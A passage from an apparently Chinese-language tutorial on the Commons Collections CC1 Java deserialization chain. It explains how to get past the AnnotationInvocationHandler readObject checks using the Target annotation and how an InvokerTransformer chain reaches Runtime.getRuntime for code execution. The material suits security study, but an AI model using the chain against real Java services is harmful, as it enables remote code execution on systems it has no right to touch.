 ```java
    }
```

观察readObject逻辑，大体结构和我们刚刚写的Poc是相同的，是一个Map的遍历，并且Map.Entry调用setValue方法。

这里面要注意判断条件，控制程序运行到setValue的位置。

1. 

```java
if (memberType != null) {  // i.e. member still exists  //type中需要有memberValues的key
```

过这个判断，需要注释type类中需要有与我们传入的memberValues中键值对的key相等一次（Class<?> memberType = memberTypes.get(name);）这个才不返回null。

这里我们用Target类，里面有个value数组。我们要把遍历的hashMap键值对的key改为value。

```java
public @interface Target {
    /**
     * Returns an array of the kinds of elements an annotation type
     * can be applied to.
     * @return an array of the kinds of elements an annotation type
     * can be applied to
     */
    ElementType[] value();
}
```

2. ```java
                               if (!(memberType.isInstance(value) ||               //判断两个对象类型，value是否可以强制转化为memberType
                                     value instanceof ExceptionProxy)) {           //value是否是ExceptionProxy的实例化对象
   ```

过这个判断，Target的value和hashMap键值对的value是不同类型。并且hashMap键值对的value不是ExceptionProxy类的实例化对象

3. setValue中传入的并不是runtime

```java
                    memberValue.setValue(                           
                        new AnnotationTypeMismatchExceptionProxy(   
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
```

![image-20240629171001578](https://s2.loli.net/2024/06/29/zJcruRAOvkh3SPM.png)

但是我们没法控制这里的memberValue.setValue()的传值，

回想一下利用思路，我们利用ChainedTransformer

`chainedTransformer.transform(Runtime.class);` 是为了执行

`invokerTransformer.transform(Runtime.class);`

所以我们保证ChainedTransformer初始化的Transfrom数组的第一行`new InvokerTransformer("getDeclaredMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",null}).tranform(XXX)`


[配置]: https://xz.aliyun.com/t/12669?time__1311=mqmhDvqIxfgD8DlxGo4%2BxCw67o7KKG%3Dz4D&amp;alichlgref=https%3A%2F%2Fwww.google.com%2F